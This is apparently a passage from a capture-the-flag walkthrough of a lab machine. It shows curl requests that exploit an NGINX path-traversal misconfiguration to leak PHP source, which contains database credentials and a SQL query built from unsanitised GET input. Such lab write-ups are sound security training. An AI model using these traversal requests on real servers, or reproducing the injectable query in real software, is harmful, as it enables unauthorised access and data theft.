     
    
    root@kali# curl -s -k -I https://www.nestedflanders.htb/dev/../html/index.php | grep HTTP
    HTTP/1.1 404 Not Found
    root@kali# curl -s -k -I https://www.nestedflanders.htb/dev../html/index.php | grep HTTP
    HTTP/1.1 200 OK
    

If I do a GET instead of a HEAD, I can see the full source for the page:

    
    
    root@kali# curl -s -k https://www.nestedflanders.htb/dev../html/index.php
    <?php
    $servername = "localhost";
    $username = "nestedflanders";
    $password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
    ...[snip]...
    

Why am I getting source? In NGINX, you have to configure each server to run
requests through a php interpreter. If the dev server isn’t configured to run
php, it will just return the static file, without interpreting it.

### Find LFI

#### Source Analysis

With the full source, I can look at what’s happening on the main site:

    
    
    <?php
    $servername = "localhost";
    $username = "nestedflanders";
    $password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
    $db = "neddy";
    $conn = new mysqli($servername, $username, $password, $db);
    $debug = False;
    
    include "6fb17817efb4131ae4ae1acae0f7fd48.php";
    
    function getTplFromID($conn) {
            global $debug;
            $valid_ids = array (25,465,587);
            if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
                            $sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
            } else {
                    $sql = "SELECT name FROM idname where id = '25'";
            }
            if ($debug) { echo "sqltpl: $sql<br>\n"; }
    
            $result = $conn->query($sql);
            if ($result->num_rows > 0) {
            while($row = $result->fetch_assoc()) {
                    $ret = $row['name'];
            }
            } else {
                    $ret = 'main';
            }
            if ($debug) { echo "rettpl: $ret<br>\n"; }
            return $ret;
    }
    